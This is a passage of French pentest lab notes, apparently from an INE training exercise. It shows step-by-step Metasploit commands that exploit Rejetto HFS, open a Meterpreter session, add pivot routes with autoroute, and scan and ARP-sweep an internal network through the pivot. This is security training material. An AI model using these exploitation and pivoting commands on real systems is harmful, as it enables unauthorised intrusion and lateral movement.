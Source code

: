 ### **2.2 Exploitation avec Metasploit**
```bash
# Configuration de l'exploit
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo1.ine.local
exploit

# Vérification du succès
ipconfig                     # Depuis la session Meterpreter
```

### **2.3 Éléments critiques post-exploitation**
- **Type de session** : Meterpreter (privilégié pour pivoting)
- **Privilèges obtenus** : Utilisateur/SYSTEM
- **Stabilité de la session** : Maintien de la connexion
- **Capacités réseau** : Accès routing et forwarding

---

## 🔄 **Phase 3 : Configuration du pivot**

### **3.1 Reconnaissance réseau depuis la machine pivot**
```bash
# Dans la session Meterpreter
ipconfig                     # Identification des interfaces
route                        # Table de routage
arp -a                       # Cache ARP pour discovery

# Exemple de résultat
# Interface 1: 192.168.1.100 (réseau externe)
# Interface 2: 10.0.19.50 (réseau interne)
```

### **3.2 Configuration des routes**
```bash
# Ajout de route automatique
run autoroute -s 10.0.19.0/20

# Vérification de la route
run autoroute -p

# Alternative manuelle
route add 10.0.19.0 255.255.240.0 1  # Session ID 1
```

### **3.3 Découverte des cibles internes**
```bash
# Port scanning via pivot
background
use auxiliary/scanner/portscan/tcp
set RHOSTS demo2.ine.local
set PORTS 1-100
exploit

# Host discovery si IP inconnue
use auxiliary/scanner/discovery/arp_sweep
set RHOSTS 10.0.19.0/24
exploit
```

---